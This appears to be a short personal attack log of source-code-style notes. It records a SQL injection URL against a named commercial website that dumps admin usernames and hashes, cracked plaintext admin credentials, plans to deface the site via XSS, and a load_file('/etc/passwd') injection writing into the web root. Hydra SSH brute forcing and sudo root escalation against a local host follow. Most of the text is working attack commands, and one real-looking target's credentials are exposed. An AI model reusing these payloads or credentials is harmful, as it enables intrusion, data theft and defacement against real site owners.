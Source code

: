 
//Select Data From opertor
http://dsquared.co.th/listcat.php?catnox=-71')/*!50000UNION*/ SELECT 1,2,3,/*!50000Group_cOncat(user,'==>',pass,'<br/>')*/,5,6,7,8,9,10+from+
opertor--+&id=21&lng=0

//use hash killer to decrypt
oawebadmin==>ef2797861e4e5f9c9528a807ecfea7de ==> oasc0521
,adminweb==>HYOX9WbFVh ==> 

//From web admin ==> can insert php file or xss or deface page
http://www.dsquared.co.th/admin
oawebadmin==>ef2797861e4e5f9c9528a807ecfea7de ==> oasc0521


//xss script by using String.fromCharCode from hacked bar ==> can convert html String to charCode
document.documentElement.innerHTML=String.fromCharCode


edit home page by adding script
//http://www.dsquared.co.th/admin/htmlcode.php?code=5&id=1&edit=N&itemxx=1&ckx=&id=1


http://192.168.0.107/admin/edit.php?id=3'

03cceba76a738e818d021e161068bec9


//if load file can see out file can output the file
http://192.168.0.107/admin/edit.php?id=-3 union select 1,user(),load_file('/etc/passwd'),4

http://192.168.0.107/admin/edit.php?id=-3 union select 1,user(),load_file('/etc/passwd'),4+into+outfile+'/var/www/css/Aung.txt'

in etc/passwd===> bin/bash par yin ssh par tae

nmap -sV www
ssh 

//crack
hydra  -l user -P rockyou75.txt 192.168.0.107 ssh 





//Find open port 
nmap -sV 192.168.0.107

hydra -h 

//Find the password of ssh by hydra
hydra -l user -P pass.txt 192.168.0.107 ssh


//Get Root Access
sudo -i
sudo -v 
sudo bash


//connect remote server
ssh user@192.168.0.107
